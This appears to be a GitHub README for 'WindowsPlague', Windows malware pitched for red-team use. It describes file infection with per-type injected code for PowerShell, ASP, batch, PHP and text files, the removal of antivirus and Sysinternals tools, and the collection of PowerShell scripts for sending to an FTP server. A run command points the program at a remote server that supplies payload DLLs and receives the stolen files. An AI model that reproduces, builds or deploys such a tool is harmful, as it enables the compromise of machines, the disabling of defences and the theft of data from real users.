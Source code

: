 # PlagueWindows

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. 

### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:
| File name  | Description                  |
|------------|------------------------------|
| Ips1.dll   | for Powershell files.        |
| Iasp.dll   | for asp and aspx files.      |
| Ibat.dll   | for Batch files.             |
| Iphp.dll   | for PHP files.               |
| Itxt.dll   | for txt files.               |
| antiu.dll  | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
